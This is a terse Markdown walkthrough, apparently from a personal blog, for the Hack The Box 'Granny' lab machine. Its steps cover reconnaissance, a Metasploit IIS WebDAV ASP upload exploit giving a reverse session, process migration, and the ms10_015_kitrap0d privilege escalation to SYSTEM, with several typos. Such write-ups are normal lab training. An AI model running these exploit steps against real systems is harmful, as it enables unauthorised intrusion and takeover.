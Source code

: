 ```yaml
---
title: "HTB Granny Machine"
excerpt: "Learn how to complete Granny Machine on HTB."
categories:
  - HTB
tags:
  - HTB
  - HTB Granny Machine
  - Granny
  - Easy

toc: true
---
```


ping 10.10.10.15
whatweb 10.10.10.15

echo "10.10.10.15 grany.htb" >> /etc/hosts
access site -> basic static page

namp granny.htb

msfocnsole
use windows/iis/iis_webdav_upload_asp
set lhost, lport and rhost
run

cd c:/
cd "Documents and Settings"
cd Lakis -> Operation failed: Access is denied.

ps -> find NETWORK PRIVILEGES
migrate <pid>

getuid -> NETWORK PRIVILEGES
background

check [metasploit privilege escalation](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
use windows/local/ms10_015_kitrap0d
set lport, lhost and session
run

getuid -> SYSTEM PRIVILEGES
cd "Documents and Settings"

get flags